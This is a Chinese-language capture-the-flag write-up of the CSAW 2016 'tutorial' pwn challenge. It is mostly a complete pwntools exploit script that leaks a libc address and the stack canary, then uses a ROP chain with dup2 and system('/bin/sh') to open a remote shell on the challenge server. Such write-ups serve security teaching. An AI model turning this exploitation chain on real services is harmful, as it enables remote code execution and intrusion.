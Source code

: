 title: CSAW 2016 tutorial writeup

date: 2016/09/19 16:48:00

---

200分的Pwn

同样也是拿到手简单跑一下就扔进IDA里静态看。
程序主体不多，一个服务端程序，用第一个参数作为监听端口，然后就是常规的bind，listen，fork来处理。nc连上去会有三个选项，一个减法运算过的puts函数在libc中的地址，第二个接受输入然后造成栈溢出，第三个退出。

<!--more-->

由于已经给了libc就很好办了，拿了puts地址算system、"/bin/sh"地址，除此之外还要找一个dup2地址来把标准输出输入重定向到socket来，否则只是在服务端调用了system（这个一开始也没注意到，觉得没问题可是不见shell回来又折腾了一下才突然发现没重定向），然后来一波ROP就可以。

完整exploit：

```python
from pwn import *

#p=remote('127.0.0.1',9990)
p=remote('pwn.chal.csaw.io',8002)

poprdi=0x00000000004012e3 # pop rdi ; ret
poprsi=0x00000000004012e1 # pop rsi ; pop r15 ; ret
pick64 = lambda x: u64(x.ljust(8, '\0'))


p.recvuntil('>')
p.sendline('1')
p.recvuntil(':')
buf=p.recvline()
puts_addr=int(buf,16)+1280
print 'puts_addr: '+hex(puts_addr)

#system_addr=puts_addr-0x000000000006b990+0x0000000000041490
#str_sh=puts_addr-0x000000000006b990+0x1639a0
#dup2_addr=puts_addr-0x000000000006b990+0x00000000000dc490
system_addr=puts_addr-0x000000000006fd60+0x0000000000046590
str_sh=puts_addr-0x000000000006fd60+0x17c8c3
dup2_addr=puts_addr-0x000000000006fd60+0x00000000000ebe90
print 'system_addr: '+hex(system_addr)
print 'binsh_addr: '+hex(str_sh)


# ======== leak canary and stack address =========
payload='A'*4

p.recvuntil('>')
p.sendline('2')
p.recvuntil('>')
p.sendline(payload)
leak=p.recvn(0x144)

canary=pick64(leak[-12:-4])
print 'canary: '+hex(canary)


# ======== ROP =========
payload2='A'*312
payload2+=p64(canary)*2

# dup2(4,1)
payload2+=p64(poprdi)
payload2+=p64(4)
payload2+=p64(poprsi)
payload2+=p64(1)*2
payload2+=p64(dup2_addr)

#dup2(4,0)
payload2+=p64(poprdi)
payload2+=p64(4)
payload2+=p64(poprsi)
payload2+=p64(0)*2
payload2+=p64(dup2_addr)

# system('/bin/sh')
payload2+=p64(poprdi)
payload2+=p64(str_sh)
payload2+=p64(system_addr)

p.recvuntil('>')
p.sendline('2')
p.recvuntil('>')
p.sendline(payload2)
p.interactive()
```

